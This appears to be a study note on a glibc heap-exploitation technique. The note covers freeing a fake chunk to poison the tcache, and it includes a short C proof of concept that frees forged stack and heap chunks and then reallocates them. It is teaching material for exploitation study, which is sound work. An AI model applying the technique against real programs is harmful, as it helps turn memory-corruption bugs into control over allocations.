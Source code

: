 <details>
<summary><strong>Description</strong></summary>
<p>

we will effectively write some data somewhere in memory we know, to make it look like a heap chunk. We will then pass a ptr to that chunk, to a free call to free it. Then depending on the status of the heap and our chunk, it will likely be inserted into a heap bin...

since the tcache doesnt have many mitigations, aiming for the tcache very effective...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long p1[10], *p2, *chunk0, *chunk1;
    malloc(1); // init heap

    // create fake chunk on stack
    // p1[0] = 0;       // prev_size (we usually dont need to care about this)
    p1[1] = 0x21;    // size (must be in tcache range)
    // p1[2] = 0;       // fd pointer (we usually dont need to care about this)
    // p1[3] = 0;       // bk pointer (we usually dont need to care about this)
    // VULNERABILITY
    free(&p1[2]);
    // VULNERABILITY

    // create fake chunk inside a large chunk
    p2 = malloc(0x50);
    // p2[0] = 0;       // prev_size (we usually dont need to care about this)
    p2[1] = 0x21;    // size (must be in tcache range)
    // p2[2] = 0;       // fd pointer (we usually dont need to care about this)
    // p2[3] = 0;       // bk pointer (we usually dont need to care about this)
    // VULNERABILITY
    free(&p2[2]);
    // VULNERABILITY

    printf("[tcache 0x20] now has 2 fake chunk, we'll allocate them\n");
    chunk0 = malloc(0x18);
    chunk1 = malloc(0x18);

    printf("chunk0: %p\n", chunk0);
    printf("chunk1: %p\n", chunk1);
}
```

</p>
</details>

<details>
<summary><strong>Ref</strong></summary>
<p>

- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/tcache/tcache_fake_chunk/readme.md
- https://github.com/johnathanhuutri/CTFNote/tree/master/Heap-Exploitation#free-custom-chunk-table-of-content

</p>
</details>
